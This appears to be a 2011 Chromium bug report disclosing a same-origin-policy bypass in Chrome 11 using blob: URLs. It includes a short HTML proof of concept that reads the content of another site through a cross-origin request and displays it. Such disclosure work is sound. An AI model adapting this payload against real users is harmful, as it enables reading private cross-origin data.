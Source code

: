 # bypass SOP with `blob:`

> Mar 2 2011

## VULNERABILITY DETAILS

???

## VERSION

Chrome Version: 11 stable (Windows XP SP3)

## REPRODUCTION CASE

PoC:

```html
<a href="data:text/html,<script>var builder = new BlobBuilder();builder.append(%22%3Cscript%3Ex%20%3D%20new%20XMLHttpRequest%28%29%3Bx.open%28%27get%27%2C%20%27http%3A//www.google.com%27%2C%20false%29%3Bx.send%28%29%3Balert%28x.responseText%29%3B%3C%5C/script%3E%22);var blob = builder.getBlob('text/html');var url = window.webkitURL.createObjectURL(blob);location=url</script>">test</a>
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=74653
